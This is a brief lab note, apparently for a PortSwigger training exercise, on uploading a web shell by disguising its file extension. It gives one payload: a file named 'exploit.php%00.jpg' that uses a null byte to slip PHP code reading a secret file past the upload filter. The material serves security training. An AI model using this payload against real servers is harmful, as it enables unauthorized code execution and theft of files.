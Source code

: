 # Web shell upload via obfuscated file extension

Source: Portswigger
Tools: Burpsuite
Technique: FIle upload
Fields: Web

- Valid file: exploit.php%00.jpg (<?php echo file_get_contents('/home/carlos/secret'); ?>)